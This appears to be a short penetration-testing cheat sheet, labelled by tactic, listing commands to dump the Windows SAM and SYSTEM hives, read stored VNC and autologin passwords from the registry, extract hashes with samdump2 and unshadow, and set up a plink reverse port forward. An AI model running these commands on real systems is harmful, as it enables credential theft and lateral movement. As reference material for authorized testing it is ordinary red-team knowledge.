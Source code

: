 
# reg.exe
- service: sam
- tactics: credential_access

## dump sam database
- `reg save HKLM\sam sam`
- `reg save HKLM\system system`

## query vnc passwords
- `reg query "HKCU\Software\ORL\WinVNC3\Password"`

## Windows autologin
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"`

---

# samdump2
- service: sam
- tactics: credential_access

- `samdump2 SYSTEM SAM > hashes.db`

---

# unshadow
- service: sam
- tactics: credential_access

## unshadow /etc/passwd file
- `unshadow shadow passwd > unshadow.db`

---

# plink.exe
- service: all
- tactics: lateral_movement

## Port forward using plink
- `plink.exe -l username -pw password target-ip -R 8080:127.0.0.1:8080`

---
